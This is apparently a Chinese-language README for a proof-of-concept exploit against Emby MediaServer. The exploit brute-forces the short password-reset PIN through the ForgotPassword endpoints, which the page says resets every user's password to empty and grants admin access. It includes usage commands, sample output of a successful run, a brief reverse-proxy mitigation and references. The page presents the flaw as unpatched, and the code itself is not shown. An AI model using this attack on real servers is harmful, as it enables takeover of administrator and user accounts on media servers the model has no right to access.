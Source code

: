 # Emby MediaServer <= 4.9.1.80/4.9.2.6 beta 任意用户密码重置

也是老洞了，但一直没修，甚至最新版也存在，重置密码的 Pin 过短导致可以爆破。

临时缓解办法：考虑在反向代理上拦截 /emby/Users/ForgotPassword 和 /emby/Users/ForgotPassword/Pin 请求，并增加速率限制，当然这不治本。

## POC 用法

PIN 默认是 0721，一般能在几分钟内爆破出来，所有用户密码会重置为空，能直接登录管理后台。

```bash
$ docker run -d -p 8096:8096 emby/embyserver:v4.9.1.80
$ python main.py <server> [-u <user>] [-p <pin>]
$ python main.py http://localhost:8096

第1次尝试中
...
第5391次尝试中

===== 成功！ =====
重置的用户名：sdaflfjjkefnkjan
使用的PIN码：0721
总尝试次数：5391次
总用时：14.64秒
```

## 参考文献

https://www.exploit-db.com/exploits/41947

https://emby.media/support/articles/Admin-Password-Reset.html

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpassword.html

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpasswordPin.html

http://localhost:8096/web/index.html#!/startup/forgotpasswordpin.html
